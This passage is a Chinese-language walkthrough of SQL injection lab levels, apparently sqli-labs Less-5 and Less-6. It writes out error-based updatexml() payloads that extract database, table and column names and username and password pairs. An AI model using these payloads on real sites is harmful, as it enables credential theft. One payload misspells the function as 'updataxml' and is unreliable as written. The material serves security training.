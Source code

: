 6. 查表信息

   ```
   ?id=1' and updatexml(1,concat(1,(select group_concat(id,username,0x7e,password) from users)),3) --+
   ```

   ![image-20250308095017865](https://gitee.com/PUqicnda/img/raw/master/20250308095017927.png)

   1. 结果显示不全，只能通过limit一条一条查询。

      limit offset,n:   返回从offset条记录开始的n条记录。

      ```
      ?id=1' and updatexml(1,concat(1,(select concat(username,0x7e,password) from users limit 0,1)),3) --+
      ```

   ![image-20250308093832413](https://gitee.com/PUqicnda/img/raw/master/20250308094740289.png)

   

# Less-6

1. ?id=1’ 不报错，?id=1” 报错，说明有报错注入

   ![image-20250308095341408](https://gitee.com/PUqicnda/img/raw/master/20250308095341503.png)

   ![image-20250308095357537](https://gitee.com/PUqicnda/img/raw/master/20250308095357632.png)

2. 加--+ ，闭合成功

   ![image-20250308095443213](https://gitee.com/PUqicnda/img/raw/master/20250308095443273.png)

3. 同第五关的报错函数

   ```
   ?id=1" and updataxml(1,concat(1,(select database())),3) --+
   ```

   ![image-20250308101756017](https://gitee.com/PUqicnda/img/raw/master/20250308101756083.png)

4. 查表名

   ```
   ?id=1" and updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='security')),3)--+
   ```

   ![image-20250308102608392](https://gitee.com/PUqicnda/img/raw/master/20250308102608505.png)

5. 查字段名

   ```
   ?id=1" and updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name = 'users')),3)--+
   ```
